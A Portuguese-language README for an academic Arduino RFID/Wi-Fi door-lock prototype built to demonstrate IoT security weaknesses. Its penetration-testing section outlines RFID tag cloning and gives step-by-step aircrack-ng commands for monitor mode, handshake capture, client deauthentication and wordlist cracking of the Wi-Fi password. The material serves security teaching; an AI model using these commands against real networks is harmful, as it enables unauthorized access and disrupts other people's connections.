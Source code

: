 # Arduino-DoorLock


O projeto apresentado no presente repositório se trata de um sistema de controle de acesso físico utilizando o microcontrolador Arduino. O protótipo final simula o funcionamento de um mecanismo para trancar e destrancar portas de forma eletrônica, controlado via Cartão RFID e WiFi, onde, caso o acesso seja bem-sucedido, um Servo Motor é movimentado liberando a abertura da porta.

A premissa ao simular - o que poderia ser o controle de acesso físico de um ambiente real - é evidenciar, analisar e explorar as possíveis vulnerabilidades que podem ser encontradas em implementações inseguras de redes e dispositivos IoT. Para tanto, neste projeto, são executados testes de segurança que exemplificam de forma semelhante a realidade os ataques cibernéticos mais recorrentes, conforme aponta o relatório da [“OWASP Top 10 IoT”](https://owasp.org/www-pdf-archive/OWASP-IoT-Top-10-2018-final.pdf), de 2018.


## Tabela de Conteúdos
* [Sobre](#arduino-doorlock)
* [Tabela de Conteúdos](#tabela-de-conteúdos)
* [Pré-Requisitos](#pré-requisitos)
* [Modo de Uso](#modo-de-uso)
* [Testes de Invasão](#testes-de-invasão)
* [Autores](#autores)

## Pré-Requisitos
Nesta seção são apresentados todos os pré requisitos necessários para reproduzir o protótipo do [DoorLock](https://github.com/iuribpmoro/Arduino-DoorLock)

### Materiais
Para montagem desse projeto serão necessários os seguintes componentes:
* [Arduino UNO](https://www.filipeflop.com/produto/placa-uno-r3-cabo-usb-para-arduino/)
* [Protoboard 400 pontos](https://www.filipeflop.com/produto/protoboard-400-pontos/#tab-description)
* [Servo Motor](https://www.filipeflop.com/produto/micro-servo-sg92r-9g-towerpro/)
* [Módulo leitor RFID MFRC522](https://www.filipeflop.com/produto/kit-modulo-leitor-rfid-mfrc522-mifare/?utm_source=google&utm_medium=organic&utm_campaign=shopping&utm_content=surfaces_across_google)
* [Ethernet Shield W5100 para Arduino](https://www.filipeflop.com/produto/ethernet-shield-w5100-para-arduino/)
* [Cabo de Rede](https://www.filipeflop.com/produto/cabo-de-rede-conector-rj45-15m/)
* [Sensor Hall Magnético KY-003](https://www.filipeflop.com/produto/sensor-hall-ky-003/)
* [LED Verde](https://www.baudaeletronica.com.br/led-difuso-5mm-verde.html)
* [LED Vermelho](https://www.baudaeletronica.com.br/led-difuso-5mm-vermelho.html)
* [2 x Resistor 220Ω](https://www.filipeflop.com/produto/resistor-220%cf%89-14w-x20-unidades/)
* Jumpers

### Montagem
A montagem desde projeto segue o sketch de demonstração. Lembrando que o Ethernet Shield deve ser conectado sobre o Arduino.
<details>
  <summary>Clique para visualizar o sketch</summary>
  <img alt="DoorLock Sketch" src="https://github.com/iuribpmoro/Arduino-DoorLock/blob/main/Sketch/door_lock_sketch.png" height="700px">
</details>

### Softwares
Os pré requisitos a nível de software reproduzir a aplicação:
* [Arduino IDE](https://www.arduino.cc/en/software)
* [Biblioteca](https://www.arduino.cc/reference/en/libraries/mfrc522/) (Passo a passo: [Adicionar bibliotecas na IDE do arduino](https://www.robocore.net/tutoriais/adicionando-bibliotecas-na-ide-arduino))
* [Código-fonte do DoorLock](https://github.com/iuribpmoro/Arduino-DoorLock/blob/main/DoorLock/DoorLock.ino)

Por fim, o arduino deve ser conectado via USB com o computador, o código deve ser carregado na placa e o ambiente estará pronto.
Caso desejar, o mesmo poderá ser anexado a uma maquete.

## Modo de Uso

## Testes de Invasão

Primeiramente, demonstra-se o funcionamento de um ataque físico de cópia de conteúdos em tags RFID, por meio da utilização de um
segundo arduino configurado para atingir esse objetivo. Em segundo lugar, exemplifica-se um ataque de força bruta para a quebra
da senha da rede WiFi na qual o dispositivo está conectado, descrevendo os riscos de utilizar senhas fracas e previsíveis.

Por meio da utilização do script [Automap](https://github.com/iuribpmoro/Automap) que realizam o reconhecimento, scanning e enumeração da rede, descobre-se, por fim, como operar a fechadura por meio de requisições web, finalizando o processo de ataque.

### Roteiro dos Ataques
#### Setup da Interface
- Iniciar modo de monitoramento da interface WiFi:
```bash
sudo airmon-ng start wlan0
```
- Verifique as interfaces wireless:
```bash
sudo iwconfig
```
#### Scanning da Rede
- Realize o scan das redes próximas e tome nota do BSSID e Channel da rede alvo:
```bash
sudo airodump-ng wlan0mon
```
- Realize o scan da rede alvo, tomando nota do MAC dos dispositivos conectados e salvando os handshakes a serem capturados:
```bash
sudo airodump-ng -c <CANAL_DA_REDE> --bssid <BSSID_DA_REDE> -w <PREFIXO_DO_ARQUIVO_DE_OUTPUT> wlan0mon
```
#### Deauthentication
- Em outro terminal, enquanto o outro roda o comando anterior, expulse os hosts da rede por meio de um ataque de deauthentication:
```bash
sudo aireplay-ng -0 2 -a <BSSID_DA_REDE> -c <MAC_DO_DISPOSITIVO>
```
#### Brute Force
- Realize um ataque de força bruta nos pacotes capturados para tentar realizar a quebra da senha:
```bash
sudo aircrack-ng <ARQUIVO>.cap -w <WORDLIST>
```

## Autores
### Gabrieli Silva
[![Gmail Badge](https://img.shields.io/badge/Gmail-D14836?style=for-the-badge&logo=gmail&logoColor=white
)](mailto:iuribpmoro@gmail.com)[![Linkedin Badge](https://img.shields.io/badge/linkedin%20-%230077B5.svg?&style=for-the-badge&logo=linkedin&logoColor=white)](https://www.linkedin.com/in/gabrieli-silva-435627164/)
### Iuri Moro
[![Gmail Badge](https://img.shields.io/badge/Gmail-D14836?style=for-the-badge&logo=gmail&logoColor=white
)](mailto:iuribpmoro@gmail.com)[![Linkedin Badge](https://img.shields.io/badge/linkedin%20-%230077B5.svg?&style=for-the-badge&logo=linkedin&logoColor=white)](https://www.linkedin.com/in/iuribpmoro/)
